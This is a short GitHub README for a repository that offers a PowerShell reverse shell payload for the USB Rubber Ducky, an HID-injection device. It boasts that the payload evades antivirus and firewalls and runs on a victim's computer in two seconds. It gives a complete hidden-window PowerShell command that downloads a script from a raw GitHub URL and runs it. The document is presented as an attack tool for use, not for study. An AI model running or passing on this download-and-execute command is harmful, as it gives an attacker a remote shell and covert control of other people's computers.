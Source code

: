 # USB Rubber Ducky Repository

*April 15th, 2019*

---

## Description

This is a repository containing a customized Powershell Reverse Shell payload for the USB Rubber Ducky by Hak5. This attack vector is currently undetectable by antiviruses and unblockable by firewalls, taking a mere 2 seconds to execute on the victim's computer.

## Execution
Run this command in the windows start menu: `powershell -w h iex (invoke-webrequest raw.githubusercontent.com/computer-geek64/ducky/master/d).content`

## Usage
Usage will not be documented due to the volatile nature of this attack vector. Script kiddies are discouraged from using this code.

## Authors
* **Ashish D'Souza** - *Sole developer* - [computer-geek64](https://github.com/computer-geek64)

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

